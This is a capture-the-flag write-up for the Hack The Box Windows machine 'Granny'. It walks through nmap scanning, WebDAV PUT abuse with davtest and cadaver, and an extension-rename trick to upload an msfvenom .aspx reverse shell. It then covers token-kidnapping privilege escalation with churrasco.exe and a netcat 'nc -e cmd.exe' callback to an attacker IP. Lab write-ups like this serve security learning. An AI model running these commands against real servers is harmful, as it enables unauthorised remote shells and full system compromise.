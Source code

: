 ```yaml
---
description: (Windows; Easy) 10.10.10.15
---
```


# Granny

## Nmap

```bash
# Nmap 7.93 scan initiated Mon Oct 24 18:50:00 2022 as: nmap -vvv -p 80 -Pn -A -oN granny.nmap 10.10.10.15
Nmap scan report for granny.htb (10.10.10.15)
Host is up, received user-set (0.024s latency).
Scanned at 2022-10-24 18:50:00 EDT for 15s

PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-webdav-scan:
|   Server Date: Mon, 24 Oct 2022 22:50:10 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=10/24%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=635716A7%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=108%TI=I%II=I%SS=S%TS=0)
OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NNT00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)
WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4=FAF0%W5=FAF0%W6=FAF0)
ECN(R=Y%DF=N%TG=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)
T1(R=Y%DF=N%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=N%TG=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   25.31 ms 10.10.14.1
2   25.30 ms granny.htb (10.10.10.15)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 18:50:15 2022 -- 1 IP address (1 host up) scanned in 15.81 seconds
```

> Services running

Microsoft IIS 6.0 on port 80

## HTTP Port 80

<figure><img src="../../../.gitbook/assets/Pasted image 20221025171939.png" alt=""><figcaption></figcaption></figure>

### Web Fuzz

<figure><img src="../../../.gitbook/assets/Pasted image 20221025172111.png" alt=""><figcaption></figcaption></figure>

## Exploiting WebDav

Because the IIS server is running on an unsupported version, I decided to look into potential vulnerabilities, which led me to `WebDav`.

> WebDAV stands for Web Distributed Authoring and Versioning, which is an extension to HTTP that lets clients edit remote content on the web. In essence, WebDAV enables a web server to act as a file server, allowing authors to collaborate on web content. Source: https://www.cloudwards.net/what-is-webdav/

Two useful resources for exploit WebDav are:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav" %}

{% embed url="https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/" %}

You can tell what functions are avaiable based on the script scan from Nmap

<figure><img src="../../../.gitbook/assets/Pasted image 20221025174456.png" alt=""><figcaption></figcaption></figure>

Using the handy tool davtest:

```bash
davtest -url http://granny.htb
```

<figure><img src="../../../.gitbook/assets/Pasted image 20221025174307.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Pasted image 20221025174354.png" alt=""><figcaption></figcaption></figure>

So the PUT method works. One thing to note is the files we are allowed to upload and ones that can execute. Knowing this will save us time and unneccessary headaches when trying to get a reverse shell

You can also use cadaver, which allows us to interact with the WebDAV service similary to how you would with FTP. We'll take advantage of this to upload a reverse shell

First we test with PUT

```bash
cadaver http://granny.htb
```

<figure><img src="../../../.gitbook/assets/Pasted image 20221025174733.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Pasted image 20221025174935.png" alt=""><figcaption></figcaption></figure>

Now we'll upload a shell. Since .jsp and .php files cannot be executed, we will try a .aspx file, but since that's not allowed to be uploaded, we'll change the file type to .txt pre-upload and then rename it back post-upload.

## Initial Foothold

```bash
# generate revershell shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=443 -f aspx -o shell.aspx

# change file type 
mv shell.aspx shell.txt

# upload file
put shell.txt

# rename file to original format
move shell.txt shell.aspx

# set up a listener to receive a hsell
nc -lnvp 443

# go to brower or use curl to execute shell.aspx
http://granny.htb/shell.aspx
```

<figure><img src="../../../.gitbook/assets/Pasted image 20221025184942.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Pasted image 20221025185023.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Pasted image 20221025185039.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

```bash
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 44 Minutes, 21 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 766 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,306 MB
Page File: In Use:         164 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Privledge escalation was a pain.

Because of how old the box is, most likely people will use Windows Exploit Suggester and similar. While you _could_ use this, it most likely will spit out hundreds of vulnerabilities. Even filtering will leave you with probably 50\~ There are a couple of things you could do and I'm sure there are a dozen ways to get `NT Authority\System` on this machine, but I chose this route:

First type `whoami && whoami /priv`

<figure><img src="../../../.gitbook/assets/Pasted image 20221028221539.png" alt=""><figcaption></figcaption></figure>

&#x20;Seeing this being enabled is very nice and comes in handy for the priv esc route I took.

I searched up on Google `windows server 2003 sp2 local privesc` which led me to this https://www.exploit-db.com/exploits/6705 You can review the presentation on TokenKidnapping [here](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)

> Basically if you can run code under any service in Win2k3 then you can own Windows, this is because Windows services accounts can impersonate. Other process (not services) that can impersonate are IIS 6 worker processes, so if you can run code from an ASP .NET or classic ASP web application then you can own Windows too.

So we see here that we're a network service account and this service account can impersonate, which means we can run some code that can make us `NT Authority\System`! You can get the .exe file [here](https://github.com/Re4son/Churrasco/) and learn how to use it for priv esc [here](https://medium.com/@nmappn/windows-privelege-escalation-via-token-kidnapping-6195edd2660e) I went for the route where I receive a reverse shell, so I uploaded nc and the binary using the same technique to get the initial foothold.

Before running the exploit, if you don't specify the exact path of where netcat is, then you'll see the following error&#x20;

<figure><img src="../../../.gitbook/assets/Pasted image 20221028221216.png" alt=""><figcaption></figcaption></figure>

Searching up the error led me to this post on stack overflow&#x20;

{% embed url="https://stackoverflow.com/questions/34924089/windows-7-netcat-error-nc-is-not-recognized-as-an-internal-or-external-comman" %}

After specifying the path, you should receive a callback

```bash
churrasco.exe "c:\inetpub\wwwroot\nc.exe 10.10.14.4 443 -e cmd.exe"
```

<figure><img src="../../../.gitbook/assets/Pasted image 20221028215839.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Pasted image 20221028221419.png" alt=""><figcaption></figcaption></figure>
